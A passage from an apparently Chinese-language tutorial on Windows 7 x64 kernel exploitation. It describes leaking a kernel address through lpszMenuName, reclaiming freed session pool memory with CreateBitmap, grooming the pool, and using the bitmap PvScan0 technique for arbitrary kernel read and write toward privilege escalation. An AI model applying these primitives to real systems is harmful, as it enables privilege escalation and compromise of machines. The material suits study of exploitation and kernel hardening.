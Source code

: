 TagCls = TagWND + 0xa8

Address(lpszMenuName) = *((TagCls + 0x90) - UlClientDelta)

为什么要减去 UlClientDelta 呢,因为内核地址我们没办法读取 只能通过用户模式的映射获取到lpszMenuName,也就是释放之后SurFace结构的地址

这时释放窗口

Session Pool中 空闲一个0x1000字节大小的内核池

CreateBitmap(0xD90, 0x01, 0x01, 0x08, Data);

这时我们就已经占坑了,可以在 Windbg 中看到我们的 SurFace 结构使用了 lpszMenuName 所占用的 SessionPool.



### 利用 BITMAP 进行任意地址写


创建两个(多个)Bitmap,获取到其中一个SURFACE结构的地址,通过偏移寻找到SURFOBJ结构中的PvScan0,将PvScan0的内容修改为另外一个Bitmap的PvScan0地址.

使用 SetBitmapBits(HBITS_B\[M_UAF_ID](PvScan0被修改成另外一个块的结构), 0x08, Where_TO_DO(想要读或写的内存地址的指针));

使用 GetBitmapBits(HBITS_B\[W_UAF_ID](另外一个块), 0x08, &EPROCESS);来读取8字节到EPROCESS指向的内存中

使用 SetBitmapBits(HBITS_B\[W_UAF_ID](另外一个块), 0x08, Where_TO_DO(想要写入内容的指针));来向设置的地址写入8字节



### 1字节任意地址读写 利用BitMap提权

实验环境:
  Windows7 X64专业版


首先分配0x500个0x1000字节的 Pool

这一步的目的是内存缩紧,缩紧到没有多余的0x1000字节大小的空闲内核池(其实可能还是有=_=,不过问题不大),来干扰Large Pool的分割

```c
for (i = 0; i < 0x500; ++i){
	CreateBitmap(0xDC0, 0x01, 0x01, 0x08, Data1);
}
```

然后分配0x2000字节大小的 Large Pool
Windows7 (X64) 创建池块大小 0x0240 + nWidth * nHeight * nBitCount,
所以 此处使用 BigPool = CreateBitmap(0x1DC0, 0x01, 0x01, 0x08, Data);

接着释放这个Pool 
DeleteObject(BigPool);

此时,占用了0x2000字节的大块是被释放的
立刻申请两个0x1000字节的块

F_Pool = CreateBitmap(0xDC0, 0x01, 0x01, 0x08, Data1);
S_Pool = CreateBitmap(0xDC0, 0x01, 0x01, 0x08, Data2);

通过泄露BitMap地址,可以发现我们已经占用了释放的Large Pool

SURFOBJ64 结构偏移0x20 处为 sizlBitMap 结构,该结构如下

```c
typedef strucy tagSIZE{
  LONG cx;
  LONG cy;
}SIZE,*PSIZE;
```
